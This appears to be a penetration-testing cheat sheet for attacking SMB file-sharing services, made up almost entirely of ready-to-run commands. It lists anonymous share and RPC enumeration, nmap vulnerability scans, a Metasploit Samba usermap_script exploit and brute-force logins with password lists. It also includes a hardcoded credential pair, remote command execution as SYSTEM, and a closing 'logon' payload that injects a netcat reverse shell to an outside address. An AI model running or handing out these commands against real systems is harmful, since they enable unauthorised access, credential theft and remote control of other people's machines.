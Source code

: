 ```bash
# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect with a user and password

smbclient -U "fox%iparalipomenidellabatracomiomachia"  //192.168.123.157/

# Connect to share anonymously
smbclient \\\\10.11.1.111\\<share>
smbclient //10.11.1.111/<share>
smbclient //10.11.1.111/<share\ name>
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

#smb reverse shell with "logon" cmd
logon "/=`nc 10.10.14.5 4444 -e /bin/bash`"

```